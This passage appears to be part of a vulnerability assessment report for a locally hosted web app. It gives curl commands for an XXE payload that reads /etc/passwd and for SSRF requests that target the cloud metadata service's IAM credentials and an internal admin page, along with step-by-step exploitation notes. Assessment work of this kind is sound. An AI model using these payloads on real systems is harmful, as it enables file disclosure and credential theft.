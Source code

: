 ```bash
curl -X POST http://127.0.0.1:5000//api/import -H "Content-Type: application/xml" -d '<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>'
```

#### Required Tools

- XML Editor
- XXEinjector
- Burp Suite

#### Potential Impact

- Local file disclosure (configuration files, credentials, etc.)
- Server-side request forgery (SSRF) through XXE
- Remote code execution in certain scenarios
- Denial of service through resource exhaustion
- Server information disclosure
- Service account compromise

---

### Server-Side Request Forgery (SSRF) (High)

**Affected Component:** http://127.0.0.1:5000//api/fetch-resource (url parameter)

**Description:** An attacker manipulates the application to make server-side requests to internal or external resources. This can allow access to internal services, scan internal networks, steal metadata from cloud environments, or launch secondary attacks from the server's perspective.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable function at: http://127.0.0.1:5000//api/fetch-resource
2. Modify the url parameter to point to internal resources
3. Test access to localhost, private networks, or cloud metadata services
4. Extract sensitive information from internal resources

#### Example Payloads

```
https://vulnerable-site.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

#### Code Examples

#### Command Examples

```bash
curl -X GET "http://127.0.0.1:5000//api/fetch-resource?url=http://169.254.169.254/latest/meta-data/"
```

```bash
curl -X GET "http://127.0.0.1:5000//api/fetch-resource?url=http://localhost:8080/admin"
```
